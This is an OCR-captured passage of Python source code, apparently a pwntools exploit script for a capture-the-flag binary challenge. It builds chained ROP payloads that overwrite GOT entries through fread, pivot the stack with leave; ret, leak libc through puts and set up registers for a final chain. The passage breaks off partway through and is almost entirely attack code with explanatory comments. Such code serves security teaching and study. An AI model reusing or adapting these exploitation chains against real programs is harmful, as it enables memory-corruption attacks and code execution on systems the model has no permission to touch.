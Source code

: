 ```python
rax_to_rdi_gadget = 0x401227
# Number of bytes from the start of the libc input buffer to the second half of the payload
# The gap in the middle is stack space for the functions
rop3_offset = 2048

# Overwrite GOT using the fread call at the end of main and pivot to rop3
rop1 = ROP(exe)
rop1.raw(exe.got.setbuf + 16)  # Set rbp with the leave instruction
rop1.raw(fread_gadget)
log.info(rop1.dump())

# This is the data that will be written to GOT starting with the entry for setbuf
rop2 = ROP(exe)
rop2.raw(b"AAAAAAAA")  # setbuf GOT
rop2.raw(rop2.find_gadget(["pop rbp", "ret"]))  # fread GOT
# Pivot to rop3 using the leave; ret at the end of main
rop2.raw(buffer_addr + rop3_offset)  # rbp
rop2.raw(rop2.find_gadget(["leave", "ret"]))
log.info(rop2.dump())

# fread GOT has been overwritten with a pop rbp gadget, which will pop the return address pushed by the call and return
# So the call to fread now acts like a ret instruction and the instructions before it can be used to control rdi

rop3 = ROP(exe)

# Leak libc by calling puts
rop3.raw(exe.got.puts + 16)  # rbp
# Set rdi with the instructions before the fread call
rop3.raw(fread_gadget)
# Since the puts GOT has been overwritten, we call it by jumping to the second instruction in the puts PLT
rop3.raw(exe.plt.puts + 6)

# Overwrite GOT again with fread
# Since we overwrote fread GOT earlier, we don't have to stack pivot again
# So we can also overwrite puts GOT with a pop rbp gadget
# The data that will be written is in rop4 below
rop3(rbp=exe.got.setbuf + 16)
rop3.raw(fread_gadget)
rop3.raw(exe.plt.fread + 6)

# Overwrite GOT one last time to overwrite the scanf entry with a pop rbp gadget
# The data that will be written is in rop5
rop3(rbp=exe.got.__isoc99_scanf + 16)
rop3.raw(fread_gadget)
rop3.raw(exe.plt.fread + 6)

# fread, puts, and scanf are now all overwritten with pop rbp
# We now have control over both rdi and rsi

# Call fread with the item size set to 67 to get rid of the junk in the libc stdin buffer and read the final ropchain
# Set rdx and rcx
rop3.raw(fread_gadget)
# Set rsi with the instructions before the scanf call
rop3(rbp=66 + 4)
rop3.raw(rsi_gadget)
# Set rdi to some heap address that we don't care about
# We first set eax and then move the value to rdi to avoid clobbering rsi
# Set eax with the instructions at the end of the loop
# This is 4 + the address of the p32(leak) value at the end of the first half of the payload
```